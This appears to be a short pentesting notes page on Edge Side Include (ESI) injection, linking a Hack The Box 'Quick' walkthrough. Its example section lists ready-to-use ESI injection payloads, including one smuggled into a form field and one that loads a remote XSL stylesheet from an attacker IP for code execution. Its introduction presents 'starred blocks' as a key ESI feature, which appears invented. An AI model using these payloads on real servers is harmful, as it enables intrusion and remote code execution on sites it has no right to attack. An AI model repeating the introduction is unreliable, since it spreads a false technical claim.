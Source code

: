 Edge Side Include (ESI) is a markup language and protocol used for dynamic web content assembly. It allows for the inclusion of fragments of content from different sources into a single web page, improving performance and scalability by offloading processing tasks to the edge servers.

One of the key features of ESI is the use of starred blocks, which are placeholders within the markup that indicate where dynamic content should be inserted. These starred blocks can be filled with content from various sources, such as backend servers, caching layers, or third-party APIs, allowing for a highly flexible and modular approach to content assembly.

By using ESI and starred blocks, developers can create dynamic web pages that are fast, scalable, and easily maintainable. This technology is particularly useful for websites with high traffic volumes or complex content requirements, as it allows for efficient caching strategies and reduces server load by distributing processing tasks across multiple edge servers.

Overall, ESI and starred blocks offer a powerful solution for managing dynamic web content and optimizing performance at the edge of the network. By leveraging these technologies, developers can create responsive and engaging web experiences that meet the demands of modern online users.

# Walkthrough

* [HTB: Quick | 0xdf hacks stuff](https://0xdf.gitlab.io/2020/08/29/htb-quick.html)

# Example

```
title=test&msg=test&id=TKT-7261<esi:include src="http://10.10.14.47/poc.html" />
```

```
<esi:include src="http://192.168.49.190/poc.html" />
```

```
<esi:include src="http://localhost/" stylesheet="http://10.10.14.47/esi.xsl">
</esi:include>
```
